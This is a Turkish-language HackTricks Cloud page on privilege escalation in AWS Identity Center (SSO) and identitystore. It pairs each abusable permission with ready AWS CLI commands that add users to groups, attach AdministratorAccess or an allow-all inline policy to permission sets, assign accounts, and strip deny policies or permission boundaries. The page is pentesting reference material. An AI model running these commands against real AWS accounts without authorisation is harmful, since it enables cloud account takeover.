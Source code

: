 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**Varsayılan** olarak, yalnızca **Yönetim Hesabı**'ndan izinleri olan **kullanıcılar**, **IAM Identity Center**'a erişebilecek ve **kontrol edebilecektir.**\
Diğer hesaplardan kullanıcılar, yalnızca hesap **Delegated Adminstrator** ise bunu yapabilir.\
[Daha fazla bilgi için belgeleri kontrol edin.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Şifreyi Sıfırla~~

Bu tür durumlarda ayrıcalıkları artırmanın kolay bir yolu, kullanıcıların şifrelerini sıfırlamalarına izin veren bir izne sahip olmaktır. Ne yazık ki, kullanıcının şifresini sıfırlamak için yalnızca kullanıcıya bir e-posta göndermek mümkündür, bu nedenle kullanıcının e-posta erişimine ihtiyacınız olacaktır.

### `identitystore:CreateGroupMembership`

Bu izinle, bir kullanıcıyı bir gruba eklemek mümkündür, böylece grup tarafından sahip olunan tüm izinleri miras alır.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% hint style="warning" %}
Bu izinleri kötüye kullanmak için, etkilenecek olan **TÜM hesaplar içinde bulunan bir müşteri yönetimli politikanın adını** bilmeniz gerekir.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya bir hesap için bir İzin Seti verebilir.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Kullanıcıya atanmış belirli bir rol adı için STS kısa vadeli kimlik bilgilerini döndürür.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ancak, nasıl elde edileceğinden emin olmadığım bir erişim belirtecine ihtiyacınız var (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir AWS yönetilen politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı ayırarak (reddetme politikası)** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir Müşteri yönetimli politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı (reddetme politikası) ayırarak** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden bir satır içi politikadan izinleri kaldırma işlemi gerçekleştirebilir. **Bir satır içi politikayı (reddetme politikası) ayırarak daha fazla ayrıcalık vermek mümkündür.**

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden İzin Sınırını kaldırabilir. İzin Sınırından verilen İzin Seti üzerindeki kısıtlamaları kaldırarak **daha fazla ayrıcalık vermek mümkündür**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
